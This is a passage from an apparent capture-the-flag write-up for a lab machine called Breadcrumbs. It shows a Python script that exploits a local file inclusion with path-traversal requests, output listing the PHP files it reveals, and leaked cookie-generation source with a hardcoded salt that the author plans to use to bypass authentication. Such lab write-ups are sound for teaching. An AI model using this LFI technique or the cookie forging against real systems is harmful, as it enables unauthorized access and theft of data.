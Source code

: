 LFI can be found by analysing the book rendering requests. Lets try to read the login , cookie , token files to bypass authentication. 


![](/Writeups/breadcrumbs/Pasted image 20210718162015.png)

Lets make a simple python script for easy of doing.


```python
import requests , re ,sys

def lfi(page):
    data = {'book' : page ,
            'method' : 1}
    resp = requests.post('http://10.10.10.228/includes/bookController.php',data=data)
    
    try:
        return bytes(resp.text , "utf-8").decode("unicode_escape").strip('"').replace('\/','/')
    except:
        return resp.text

if __name__=="__main__":
    page = lfi(sys.argv[1])
    if len(sys.argv)== 3:
        pages = re.findall(r'([a-zA-Z0-9\-\/]*\.php)',page)
        for f in pages:
            print(f)
    else:
        print(page)              

```

```bash
┌──(aju㉿Parrot)-[~/breadcrumps/lfi]
└─$ python3 script.py ../portal/login.php a

authController.php
php/admins.php
login.php
signup.php
includes/footer.php

```

```python
┌──(aju㉿Parrot)-[~/breadcrumps/lfi]
└─$ python3 script.py ../portal/cookie.php 
/home/aju/breadcrumps/lfi/script.py:9: DeprecationWarning: invalid escape sequence '\/'
  return bytes(resp.text , "utf-8").decode("unicode_escape").strip('"').replace('\/','/')
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
```